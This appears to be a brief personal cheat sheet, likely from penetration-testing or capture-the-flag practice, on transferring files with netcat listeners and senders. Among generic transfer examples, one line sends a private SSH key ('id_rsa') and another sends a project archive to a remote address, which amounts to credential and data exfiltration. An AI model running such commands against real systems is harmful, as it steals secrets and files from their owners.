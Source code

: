 
Destination machine:
`nc -lp 12345 > received_filename.ext`
`timeout 2m nc -lp 1234 > received_filename.ext`

Source machine:
`nc 10.18.21.236 12345 < filename_to_send.ext`
`nc 10.10.14.161 12345 < id_rsa`
`nc 10.10.14.161 12345 < project.zip`

check file size to see when finished, then just crtl+c

